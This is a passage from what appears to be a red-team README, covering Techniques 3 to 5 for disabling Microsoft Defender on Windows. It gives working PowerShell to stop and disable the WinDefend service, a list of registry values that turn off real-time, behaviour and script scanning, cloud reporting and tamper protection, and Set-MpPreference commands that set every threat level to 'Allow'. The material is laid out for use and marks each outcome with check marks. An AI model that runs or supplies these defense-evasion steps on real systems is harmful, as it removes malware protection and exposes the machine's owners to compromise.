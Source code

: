 
### **Technique 3: Service Disable** 🛑
**What it does:** Disables Defender service permanently

```powershell
Stop-Service -Name WinDefend -Force
Set-Service -Name WinDefend -StartupType Disabled
```

**Result:**
- ✅ Defender service stopped
- ✅ Won't restart automatically
- ✅ Stays disabled even after reboot (until blue team manually re-enables)

---

### **Technique 4: Comprehensive Registry Disable** 📝
**What it does:** Disables EVERY Defender feature via registry

**10+ Registry Keys Modified:**
- `DisableAntiSpyware` = 1
- `DisableRealtimeMonitoring` = 1
- `DisableBehaviorMonitoring` = 1
- `DisableOnAccessProtection` = 1
- `DisableScanOnRealtimeEnable` = 1
- `DisableIOAVProtection` = 1
- `DisableScriptScanning` = 1
- `DisableBlockAtFirstSeen` = 1
- `SubmitSamplesConsent` = 2 (Never send samples)
- `SpynetReporting` = 0 (No cloud reporting)
- `TamperProtection` = 0 (Disable tamper protection)

**Result:**
- ✅ ALL Defender features disabled
- ✅ Persists across reboots
- ✅ Even if service restarts, it's neutered

---

### **Technique 5: Threat Action Override** ⚠️
**What it does:** Tells Defender to ALLOW all threats

```powershell
Set-MpPreference -HighThreatDefaultAction 6      # 6 = Allow
Set-MpPreference -ModerateThreatDefaultAction 6  # 6 = Allow
Set-MpPreference -LowThreatDefaultAction 6       # 6 = Allow
Set-MpPreference -SevereThreatDefaultAction 6    # 6 = Allow
```

**Threat Action Codes:**
- 1 = Clean
- 2 = Quarantine
- 3 = Remove
- 6 = **Allow** ← We set this!
